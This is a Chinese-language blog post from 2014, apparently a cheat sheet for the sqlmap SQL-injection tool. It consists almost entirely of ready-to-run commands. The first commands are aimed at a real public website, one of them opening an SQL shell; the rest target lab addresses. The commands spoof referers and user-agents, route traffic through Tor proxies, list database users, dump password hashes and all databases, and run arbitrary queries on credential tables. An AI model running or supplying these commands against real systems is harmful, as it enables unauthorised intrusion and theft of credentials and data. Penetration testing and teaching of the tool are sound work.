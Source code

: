 ```yaml
---
title: sqlmap简单中文说明
id: 1330
categories:
  - 安全
date: 2014-06-12 23:47:40
tags:
  - sqlmap
  - sql注入
---
```


整理：mickey

更新
svn checkout https://svn.sqlmap.org/sqlmap/trunk/sqlmap sqlmap-dev

sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 1 --sql-shell //执行SQL语句

sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 5 //更详细的信息

load options from a configuration INI file
sqlmap -c sqlmap.conf
<!--more-->
使用POST方法提交
sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/post_int.php" --method POST --data "id=1"

使用COOKIES方式提交,cookie的值用;分割,可以使用TamperData来抓cookies
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/cookie_int.php" --cookie "id=1" -v 1

使用referer欺骗
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3

使用自定义user-agent,或者使用随机使用自带的user-agents.txt
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3

python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"

使用基本认证
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3

使用Digest认证
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3

使用代理,配合TOR
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"

使用多线程猜解
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3

绕过动态检测,直接指定有注入点的参数,可以使用,分割多个参数,指定user-agent注入
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1&cat=2" -v 1 -p "cat,id"
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"

指定数据库,绕过SQLMAP的自动检测
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"

* MySQL
* Oracle
* PostgreSQL
* Microsoft SQL Server

指定操作系统,绕过SQLMAP自动检测
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"

* Linux
* Windows

自定义payload
Options: --prefix and --postfix

In some circumstances the vulnerable parameter is exploitable only if the user provides a postfix to be appended to the injection payload. Another scenario where these options come handy presents itself when the user already knows that query syntax and want to detect and exploit the SQL injection by directly providing a injection payload prefix and/or postfix.

Example on a MySQL 5.0.67 target on a page where the SQL query is: $query = "SELECT * FROM users WHERE id=('" . $_GET['id'] . "') LIMIT 0, 1";:

$ python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --postfix "AND 'test'='test"

[...]
[hh:mm:16] [INFO] testing sql injection on GET parameter 'id' with 0 parenthesis
[hh:mm:16] [INFO] testing custom injection on GET parameter 'id'
[hh:mm:16] [TRAFFIC OUT] HTTP request:
GET /sqlmap/mysql/get_str_brackets.php?id=1%27%29%20AND%207433=7433%20AND%20
%28%27test%27=%27test HTTP/1.1
Accept-charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Host: 192.168.1.121:80
Accept-language: en-us,en;q=0.5
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,
image/png,*/*;q=0.5
User-agent: sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)
Connection: close
[...]
[hh:mm:17] [INFO] GET parameter 'id' is custom injectable
[...]

As you can see, the injection payload for testing for custom injection is:

id=1%27%29%20AND%207433=7433%20AND%20%28%27test%27=%27test

which URL decoded is:

id=1') AND 7433=7433 AND ('test'='test

and makes the query syntatically correct to the page query:

SELECT * FROM users WHERE id=('1') AND 7433=7433 AND ('test'='test') LIMIT 0, 1

In this simple example, sqlmap could detect the SQL injection and exploit it without need to provide a custom injection payload, but sometimes in the real world application it is necessary to provide it.

页面比较
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v

排除网站的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"

多语句测试，php内嵌函数mysql_query(),不支持多语句
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1

union注入测试
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1

unionz注入配合orderby
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1

python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs

fingerprint
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b

判断当前用户是否是dba
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --is-dba -v 1

列举数据库用户
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0

列举数据库用户密码
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0

查看用户权限
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0

列数据库
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dbs -v 0

列出指定数据库指定表的列名
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --columns -T users -D test -v 1

列出指定数据库的指定表的指定列的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump -T users -D master -C surname -v 0

指定列的范围从2－4
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0

导出所有数据库，所有表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump-all -v 0

只列出用户自己新建的数据库和表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0

sql query
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1

SELECT usename, passwd FROM pg_shadow ORDER BY usename

保存和恢复会话
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"

保存选项到INC配置文件
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save